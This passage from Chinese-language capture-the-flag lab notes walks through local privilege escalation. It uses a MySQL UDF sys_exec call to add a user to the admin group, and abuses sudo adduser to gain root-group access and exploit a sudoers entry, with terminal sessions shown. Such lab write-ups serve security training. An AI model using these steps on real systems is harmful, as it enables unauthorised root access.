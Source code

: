 ```
2 rows in set (0.00 sec)

mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 |
+--------------------------------------+
1 row in set (0.05 sec) 

mysql> exit
Bye

john@Kioptrix4:/var/www$ sudo su - 
[sudo] password for john: 
root@Kioptrix4:~# whoami 
root 
root@Kioptrix4:~# cd /root 
root@Kioptrix4:~# ls 
congrats.txt  lshell-0.9.12 
root@Kioptrix4:~#
```

UDF提权详情：[0X04 数据库内置函数研究](https://www.yuque.com/xmtxsec/network_security/anq3ng)
UDF提权实例：[pWnOS: 2.0](https://www.yuque.com/xmtxsec/network_security/ftamoe)


## 10.11、apt-get提权
执行sudo -l，发现可以免密执行adduser命令，添加一个root组的用户<br />![](_img\14-归类总结/1671608752522-dbf058b6-d0b7-487a-baf3-c37aa0088426.jpeg)

有了这个跟 root 同一组的用户，就可以读到一些只能root组和root读的文件:/etc/sudoers，该文件包含了能够让普通用户执行一些或者全部的root命令，如果该文件可以写入的话，我们可以把当前用户写入：chounana ALL=(ALL:ALL) ALL，这样当执行sudo su的时候，我们就可以进入到 root 了！

查看sudoers文件，查看还有哪些用户可以使用sudo执行命令，发现一个jason用户，但是这个用户并不存在，但是我们是可以新建用户的，所以需要密码（自己的密码）才能执行这个也就没有问题。<br />![](_img\14-归类总结/1671608752604-bad06e70-5866-4320-9265-612156958eb7.jpeg)
exit退回到saint用户，新建jason用户
```
chounana@djinn3:/home/saint$ exit
exit
saint@djinn3:~$ sudo adduser jason
Adding user `jason' ...
Adding new group `jason' (1005) ...
Adding new user `jason' (1005) with group `jason' ...
Creating home directory `/home/jason' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for jason
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] 
saint@djinn3:~$ 
```
